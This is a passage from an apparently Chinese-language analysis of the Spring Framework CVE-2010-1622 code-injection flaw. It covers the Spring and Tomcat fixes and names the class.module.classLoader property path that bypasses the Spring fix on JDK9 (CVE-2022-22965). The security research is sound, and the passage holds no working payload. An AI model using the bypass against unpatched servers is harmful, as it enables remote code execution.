      if( t instanceof IllegalStateException )
          throw (IllegalStateException) t;
      if( t instanceof JspException )
          throw (JspException) t;
      throw new JspException(t);
    } finally {
      jspContext.getELContext().putContext(JspContext.class,super.getJspContext());
      ((org.apache.jasper.runtime.JspContextWrapper) jspContext).syncEndTagFile();
    }
  }
}
```


## 漏洞修复

### Spring Framework

https://github.com/spring-projects/spring-framework/compare/v3.0.2.RELEASE..v3.0.3.RELEASE



在通过内省向`propertyDescriptorCache`放`PropertyDescriptor`时，如果`beanClass`是`Class`类的话则忽略它的`classLoader`属性。

这里在JDK9的环境下可以绕过：`class.module.classLoader`，也就是CVE-2022-22965。

### Tomcat

> Return copies of the URL array rather than the original. This facilitated CVE-2010-1622 although the root cause was in the Spring Framework. Returning a copy in this case seems like a good idea.



Tomcat 6.0.28版本后把`getURLs`方法返回的值改成了clone的，即我们没办法再改变`repositoryURLs`。


## 参考

[SpringMVC框架任意代码执行漏洞(CVE-2010-1622)分析](http://rui0.cn/archives/1158)

[Improper Control of Generation of Code ('Code Injection') in Spring Framework](https://github.com/advisories/GHSA-vpr3-f594-mg5g)

